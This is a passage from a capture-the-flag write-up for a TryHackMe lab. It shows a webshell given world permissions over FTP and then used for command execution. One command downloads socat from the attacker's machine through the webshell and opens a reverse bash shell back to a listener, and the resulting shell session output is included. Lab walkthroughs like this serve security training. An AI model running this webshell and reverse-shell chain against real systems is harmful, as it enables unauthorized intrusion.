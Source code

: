 **That being said, we can `chmod` command to change it to world-readable/writable/executable:**
```shell
ftp> chmod 777 webshell.php
200 SITE CHMOD command ok.
```

**Now, we should able to execute our webshell code!**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Different-CTF)-[2023.01.31|15:25:04(HKT)]
└> curl http://subdomain.adana.thm/webshell.php --get --data-urlencode "cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Nice! We have code execution!

**Let's get a shell!**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Different-CTF)-[2023.02.02|09:07:18(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
2023/02/02 09:07:20 socat[8591] N opening character device "/dev/pts/1" for reading and writing
2023/02/02 09:07:20 socat[8591] N listening on AF=2 0.0.0.0:4444

┌[siunam♥earth]-(/opt/static-binaries/binaries/linux/x86_64)-[2023.02.02|09:06:27(HKT)]
└> python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Different-CTF)-[2023.02.02|09:07:23(HKT)]
└> curl http://subdomain.adana.thm/webshell.php --get --data-urlencode "cmd=wget http://10.9.0.253:8000/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.9.0.253:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane"
```

```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Different-CTF)-[2023.02.02|09:07:18(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
2023/02/02 09:07:20 socat[8591] N opening character device "/dev/pts/1" for reading and writing
2023/02/02 09:07:20 socat[8591] N listening on AF=2 0.0.0.0:4444
                                                                2023/02/02 09:07:43 socat[8591] N accepting connection from AF=2 10.10.152.107:56364 on AF=2 10.9.0.253:4444
                                                                2023/02/02 09:07:43 socat[8591] N starting data transfer loop with FDs [5,5] and [7,7]
                                           www-data@ubuntu:/var/www/subdomain$ 
www-data@ubuntu:/var/www/subdomain$ export TERM=xterm-256color
www-data@ubuntu:/var/www/subdomain$ stty rows 22 columns 107
www-data@ubuntu:/var/www/subdomain$ whoami;hostname;id;ip a
www-data
ubuntu
uid=33(www-data) gid=33(www-data) groups=33(www-data)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:e0:8b:fe:8b:6d brd ff:ff:ff:ff:ff:ff
    inet 10.10.152.107/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::e0:8bff:fefe:8b6d/64 scope link 
       valid_lft forever preferred_lft forever
www-data@ubuntu:/var/www/subdomain$ ^C
www-data@ubuntu:/var/www/subdomain$ 
```
